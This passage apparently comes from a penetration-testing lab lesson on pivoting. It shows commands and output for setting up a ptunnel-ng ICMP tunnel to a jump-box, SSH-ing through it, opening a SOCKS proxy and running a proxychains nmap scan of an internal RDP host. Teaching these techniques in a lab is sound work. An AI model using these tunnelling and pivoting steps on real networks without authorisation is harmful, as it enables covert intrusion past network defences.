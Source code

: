 The IP address following `-r` should be the IP of the jump-box we want ptunnel-ng to accept connections on. In this case, whatever IP is reachable from our attack host would be what we would use.

#### Connecting to ptunnel-ng Server from Attack Host

```bash
samzz@htb[/htb]$ sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22

[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
```

#### Tunneling an SSH connection through an ICMP Tunnel

```bash
ssh -p2222 -lubuntu 127.0.0.1
```

#### Viewing Tunnel Traffic Statistics

```bash
inf]: Incoming tunnel request from 10.10.14.18.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: 
Session statistics:
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%
[inf]: 
```

#### Enabling Dynamic Port Forwarding over SSH

```bash
ssh -D 9050 -p2222 -lubuntu 127.0.0.1

ubuntu@127.0.0.1's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
<snip>
```

#### Proxychaining through the ICMP Tunnel

```bash
proxychains nmap -sV -sT 172.16.5.19 -p3389

ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-11 11:10 EDT
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:80-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
Nmap scan report for 172.16.5.19
Host is up (0.12s latency).

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.78 seconds
```


[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.